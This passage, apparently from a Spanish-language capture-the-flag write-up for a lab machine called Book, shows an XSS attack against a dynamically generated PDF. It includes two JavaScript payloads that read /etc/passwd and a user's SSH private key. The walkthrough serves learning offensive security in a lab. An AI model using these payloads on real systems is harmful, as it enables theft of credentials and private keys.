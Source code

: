Enumerando el panel admin encontramos que podemos descargar los archivos subidos por los usuarios en `http://10.10.10.176/admin/collections.php`.

![](/rafaariza/assets/images/book/book7.png)

Los usuarios pueden subir archivos en `http://10.10.10.176/collections.php`.

![](/rafaariza/assets/images/book/book8.png)

Así que subí un archivo a modo de prueba.

![](/rafaariza/assets/images/book/book9.png)

Descargando el archivo en `Collections` vemos que los campos `Author` y `Book Title` se ven reflejados en el PDF. 

![](/rafaariza/assets/images/book/xss.png){: .align-center}

Esto es un claro caso de posible `XSS`; haciendo un poco de búsqueda en Google me topé con este [**post**](https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html) acerca de XSS y PDF's generados dinámicamente. Este fue el payload utilizado:

```php
<script>
x=new XMLHttpRequest;
x.onload=function(){
document.write(this.responseText)
};
x.open("GET","file:///etc/passwd");
x.send();
</script>
```

![](/rafaariza/assets/images/book/script.png){: .align-center}

Cuando descargamos el PDF generado, obtenemos:

![](/rafaariza/assets/images/book/book10.png)

Como se puede observar, tanto el usuario `reader` como `root` tienen una `bash` asignada y si recordamos, el servicio `SSH` estaba activo en la máquina. Probamos a obtener la `key ssh` con el mismo método.

```php
<script>
x=new XMLHttpRequest;
x.onload=function(){
document.write(this.responseText)
};
x.open("GET","file:///home/reader/.ssh/id_rsa");
x.send();
</script>
```

![](/rafaariza/assets/images/book/book12.png)
